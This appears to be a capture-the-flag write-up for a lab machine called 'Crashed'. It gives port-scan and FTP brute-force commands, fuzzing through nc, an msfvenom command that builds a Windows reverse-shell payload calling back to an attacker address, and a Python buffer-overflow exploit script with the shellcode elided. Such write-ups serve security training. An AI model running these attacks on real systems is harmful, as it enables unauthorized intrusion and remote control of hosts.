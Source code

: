# Crashed CTF

**1. Port Scanning**

*   **Unicornscan:**

    ```bash
    sudo unicornscan -ImT 172.24.226.182:1-2000
    ```
*   **Nmap:**

    ```bash
    sudo nmap 172.24.226.182 -p 21 -sV -sC -Pn
    ```

**2. FTP Brute Force**

*   **Metasploit:**

    ```
    scanner/ftp/ftp_login
    set RHOSTS 172.24.226.182
    set USERPASS_FILE ftp.txt
    ```
*   **Hydra:**

    ```bash
    hydra -t 1 -l ftp -P pass.txt -vV 172.24.226.182 ftp
    ```

**3. Enumeration**

* **Get Service Files via FTP**
*   **Strings Analysis:**

    ```bash
    strings super_secure_server.exe | less
    ```
* **Try to Find Running Service Port**

**4. Test for Buffer Overflow**

*   **Fuzzing:**

    ```python
    python -c " print 'SECRET'+'A"*2000" | nc -nvv 172.24.226.182 1337
    ```
* **Overwrite the EIP:** Use Mona to find offset and generate payload accordingly.
* **Find Bad Characters:** Generate a payload to find bad characters and adjust the pattern accordingly.
* **Find the Right Module:** Use Mona to identify the module and the JMP ESP address.
*   **Generate Shellcode:**

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=443 -e x86/shikata_ga_nai -f py -v shell -b "\x00"
    ```
* **Exploit:** Update the Python script and initiate the exploit.

```python
# Final exploit script
import socket
# badchars is "\x00\x0a\xad\x25\x26\x2b\x3d"
# Message 0x1009083
shell = "..."  # Generated shellcode
buffer = "SECRET" + "A" * 998 + '\xad\x12\x50\x62' + '\x90' * 16 + shell + '\x90' * (2000 - 998 - 6 - 4 - 16 - len(shell))
payload = "username=" + buffer + "&password=1234"
request = "...HTTP headers..." + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.24.226.182", 80))
s.send(request.encode())
print(s.recv(1024))
s.close()
```
